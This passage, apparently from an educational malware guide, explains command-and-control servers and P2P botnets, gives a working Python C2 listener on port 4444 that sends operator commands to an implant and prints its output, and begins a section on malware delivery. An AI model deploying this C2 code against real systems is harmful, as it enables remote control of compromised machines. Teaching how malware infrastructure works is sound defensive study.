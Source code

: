     - Botnets have been known to use P2P communication. This is where each infected system can server as a c2 if needed, this makes it harder to take down the c2 infrastructure.

**Basic c2 example**

As you have read a c2 is designed to be the "communication hub" for the malware to take commands and actions on what to do next. Below is a basic example of a c2 written in Python:

```c
import socket


def c2_server():
    # listen on all interfaces
    host = '0.0.0.0'
    port = 4444
    
    # setup the socket
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind((host, port))
    # limit total connections to 5
    server_socket.listen(5) 

    print(f"[+] Listening for incoming connections on {host}:{port}...")

    client_socket, addr = server_socket.accept()
    
    # loop forever
    while True:
        command = input("Enter command to execute: ")
        # send the command 
        client_socket.send(command.encode())
        if command.lower() == 'exit':
            print("[-] Closing connection.")
            client_socket.close()
            break
        
        # return the results from the malware
        result = client_socket.recv(1024).decode()
        print(f"Output:\n{result}")

if __name__ == "__main__":
    c2_server()
```

---
## Malware delivery methods

Delivering malware is the process of getting the malicious programs onto the victims’ systems and getting them to execute it. Over the years criminals and attackers have developed more complex delivery mechanisms to spread their malware successfully. Some of the methods are targeted and sophisticated, while some of them are just dumb luck. The best delivery method always depends on the goal of the attacker, the type of malware, and the security posture of the target.
